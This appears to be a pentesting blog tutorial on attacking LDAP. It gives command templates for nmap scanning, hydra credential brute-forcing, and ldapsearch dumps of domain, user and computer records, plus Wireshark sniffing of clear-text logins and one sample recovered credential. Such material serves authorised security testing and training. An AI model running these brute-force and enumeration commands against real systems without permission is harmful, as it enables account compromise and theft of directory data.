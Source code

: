 ```yaml
---
title:  Ldap Pentesting
date: 2022-06-03 05:49:33 +0800
categories: [Infrastructure Pentesting, Ldap]
tags: [infrastructure, pentesting, services, ldap]     # TAG names should always be lowercase
---
```


# Ldap

The Lightweight Directory Access Protocol (LDAP) is a directory service protocol that runs on a layer above the TCP/IP stack. It provides a mechanism used to connect to, search, and modify Internet directories. It runs on port `389/tcp` by default.

# Enumeration

## Scanning With Nmap

We can use nmap to scan ldap protocol.

```bash

nmap -sT -sV -Pn -p 389 [target_host]

```

![ldap](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/ldap0.png)

Above image shows ldap was running on port 389/tcp on our target. 

# Bruteforcing Ldap

## hydra

Using hydra , we can bruteforce credentials of ldap protocol.

```bash
hydra -l [username] -P [/path/to/password/wordlist] ldap2://[target_ip]
```

![ldap](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/ldap1.png)


In the above image we were able to get a valid credential `krobot:kPassword@123`.

# Exploitation

## Dump all domain information

Since we got valid credentials, we can extract everything from our target domain using `ldapsearch`.

```bash

ldapsearch -x -D '[domain\username]' -w '[password]' -b 'dc=[subdomain],dc=[tld]' -H ldap://[target_ip]

```

![ldap](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/ldap2.png)

![ldap](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/ldap3.png)

## Extract Users .

```bash

ldapsearch -x -D '[domain\username]' -w '[password]' -b 'cn=users,dc=[subdomain],dc=[tld]' -H ldap://[target_ip]

```

![ldap](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/ldap4.png)

## Extract Information Of A Specific User

```bash

ldapsearch -x -D '[domain\username]' -w '[password]' -b 'cn=[target_user],cn=users,dc=[subdomain],dc=[tld]' -H ldap://[target_ip]

```

![ldap](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/ldap5.png)

## Extract Computers

```bash

ldapsearch -x -D '[domain\username]' -w '[password]' -b 'cn=computers,dc=[subdomain],dc=[tld]' -H ldap://[target_ip]

```

![ldap](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/ldap6.png)

# Sniffing

The traffic sent to and received from ldap is not encrypted. We can leverage this to retrieve a clear-text credential.

## Wireshark

We can use wireshark to sniff ldap traffic.

![ldap](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/ldap8.png)

Analysing ldap traffic revealed the clear-text credential of ldap

# References

- [https://docs.microsoft.com/en-us/previous-versions/windows/desktop/ldap/lightweight-directory-access-protocol-ldap-api](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/ldap/lightweight-directory-access-protocol-ldap-api)
- [https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap)
